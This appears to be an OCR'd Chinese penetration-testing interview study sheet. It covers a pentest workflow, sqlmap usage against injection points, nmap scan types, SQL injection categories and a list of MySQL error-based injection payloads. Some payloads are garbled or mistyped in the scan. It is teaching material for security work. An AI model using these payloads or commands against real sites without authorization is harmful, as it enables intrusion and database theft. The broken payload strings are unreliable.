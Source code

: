 1>  浏览网站，看看网站规模，功能，特点等  
2>  端口，弱口令，目录等扫描  
3> XSS ，SQL 注入，命令注入，CSRF ，cookie 安全检测 ，敏感信息，通信数据传输，暴力破解，任意文件上传，越权访问，未授权访问，目录遍历，文件包含，重放攻击（短信轰炸），服务器漏洞检测，最后使用漏扫工具等  
3 ）漏洞利用  |  权限提升  
a) mysql 提权，serv-u 提权，linux 内核版本提权等  
4 ）清除测试数据  |  输出报告  
i  日志、测试数据的清理
ii  总结，输出渗透测试报告，附修复方案  
5)  复测  
验证并发现是否有新漏洞，输出报告，归档  

44.sqlmap ，怎么对一个注入点注入？  
    (1)如果是 get 型号，直接，sqlmap -u "诸如点网址".  
    (2)如果是 post 型诸如点，可以 sqlmap -u "注入点网址” --data="post的参数"  
    (3)如果是 cookie ，X-Forwarded-For 等，可以访问的时候，用 burpsuite抓包，注入处用*号替换，放到文件里，然后 sqlmap -r "文件地址"  

45.nmap ，扫描的几种方式?  
Nmap功能的实现基于各种层面的协议。
（1）主机发现		
nmap -sP x.x.x.x/24		PING扫描，扫描内网在线主机，利用网络层ICMP协议
（2）端口扫描
nmap -sU x.x.x.x	UDP扫描，扫描主机打开的UDP端口，利用传输层的协议
nmap -sS x.x.x.x	TCP SYN半开放扫描，好处是不需要进行三次握手，不会留下日志信息
nmap -sT x.x.x.x	TCP Connect扫描，执行三次握手
（3）版本侦测		
nmap -sV	x.x.x.x	版本探测
（4）OS侦测

46.sql 注入的几种类型？  
      (1)报错注入  
      (2)bool 型注入  
      (3)延时注入  
      (4)宽字节注入  

47.报错注入的函数有哪些？   
      (1)and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】 
      (2)通过 floor 报错  向下取整  
      (3)+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)  
    （4)geometrycollection()select from test where id=1 and  geometrycollection((select from(selectfrom(select user())a)b));  
      (5)multipoint()select from test where id=1 and  multipoint((select from(select from(select user())a)b));  
      (6)polygon()select from test where id=1 and  polygon((select from(select from(select user())a)b));  
      (7)multipolygon()select from test where id=1 and  multipolygon((select from(select from(select user())a)b));  
      (8)linestring()select from test where id=1 and  linestring((select from(select from(select user())a)b));  
      (9)multilinestring()select from test where id=1 and  multilinestring((select from(select from(select user())a)b));  
      (10)exp()select from test where id=1 and exp(~(select * from(select user())a));  
addslashes()  函数返回在预定义字符之前添加反斜杠的字符串  
